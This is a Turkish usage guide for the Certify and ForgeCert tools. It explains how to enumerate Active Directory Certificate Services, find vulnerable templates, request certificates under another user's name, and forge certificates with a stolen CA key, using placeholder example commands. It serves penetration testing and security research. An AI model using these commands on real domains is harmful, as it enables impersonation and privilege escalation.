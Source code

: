 # Certify ve ForgeCert Kullanım Rehberi

## Certify Nedir?

**Certify**, Active Directory Certificate Services (AD CS) üzerindeki yanlış yapılandırmaları tespit etmek ve kötüye kullanmak için geliştirilmiş bir C# aracıdır. Bu araç, AD CS ile ilgili güvenlik araştırmaları için kapsamlı işlevler sunar.

> **Önemli Not:** Certify yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Certify Özellikleri

1. **CA ve Sertifika Şablonu Taraması:**
   - Domain içerisindeki tüm Sertifika Yetkililerini (CA) ve etkin sertifika şablonlarını listeler.
2. **Yanlış Yapılandırma Tespiti:**
   - Güvenlik açıkları olan şablonları otomatik olarak belirler.
3. **Sertifika Talebi ve Kullanımı:**
   - Mevcut kullanıcı bağlamında sertifika talep etme ve alternatif adlarla (SAN) çalışma yeteneği.

---

## ForgeCert Nedir?

**ForgeCert**, çalınan bir Sertifika Yetkilisi (CA) sertifikası ve özel anahtarı kullanılarak sahte sertifikalar oluşturmayı sağlayan bir araçtır. Bu sahte sertifikalar, Active Directory ortamında kimlik doğrulama yapmak için kullanılabilir.

> **Önemli Not:** ForgeCert yalnızca yetkili test ortamlarında kullanılmalıdır. Yetkisiz kullanımlar yasa dışıdır.

---

## Gereksinimler

- **.NET Framework 4.0 veya üzeri**
- **Windows İşletim Sistemi**

---

## İndirme ve Kurulum

Certify ve ForgeCert araçları GitHub üzerinden sağlanabilir:

- [Certify GitHub Sayfası](https://github.com/GhostPack/Certify)
- [ForgeCert GitHub Sayfası](https://github.com/GhostPack/ForgeCert)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/GhostPack/Certify.git
   git clone https://github.com/GhostPack/ForgeCert.git
   ```

2. **Derleme:**
   - Visual Studio 2019 veya üzeri kullanarak projeyi açın ve derleyin.
   - Derleme sonucunda `Certify.exe` ve `ForgeCert.exe` dosyalarını elde edeceksiniz.

3. **Çalıştırma:**
   ```bash
   Certify.exe [parametreler]
   ForgeCert.exe [parametreler]
   ```

---

## Certify Kullanım Parametreleri

### Genel Kullanım
```bash
Certify.exe [komut] [parametreler]
```

### Örnek Komutlar

#### Tüm Sertifika Yetkililerini (CA) Listeleme
```bash
Certify.exe cas
```

#### Etkin Sertifika Şablonlarını Listeleme
```bash
Certify.exe find
```

#### Güvenlik Açığı Olan Şablonları Bulma
```bash
Certify.exe find /vulnerable
```

#### Mevcut Kullanıcı Bağlamında Sertifika Talep Etme
```bash
Certify.exe request /ca:SERVER\CA_NAME /template:TEMPLATE_NAME
```

#### Alternatif Ad (SAN) ile Sertifika Talebi
```bash
Certify.exe request /ca:SERVER\CA_NAME /template:TEMPLATE_NAME /altname:USERNAME
```

#### Mevcut Bir Sertifikayı İndirme
```bash
Certify.exe download /ca:SERVER\CA_NAME /id:CERTIFICATE_ID
```

---

## ForgeCert Kullanım Parametreleri

### Genel Kullanım
```bash
ForgeCert.exe --CaCertPath CA_CERT_PATH --CaCertPassword PASSWORD --Subject SUBJECT --SubjectAltName ALTNAME --NewCertPath NEW_CERT_PATH --NewCertPassword NEW_CERT_PASSWORD
```

### Örnek Komutlar

#### Sahte Sertifika Oluşturma
```bash
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Password123!" --Subject "CN=User" --SubjectAltName "localadmin@domain.local" --NewCertPath localadmin.pfx --NewCertPassword "NewPassword123!"
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** Certify ve ForgeCert yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araçlar üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
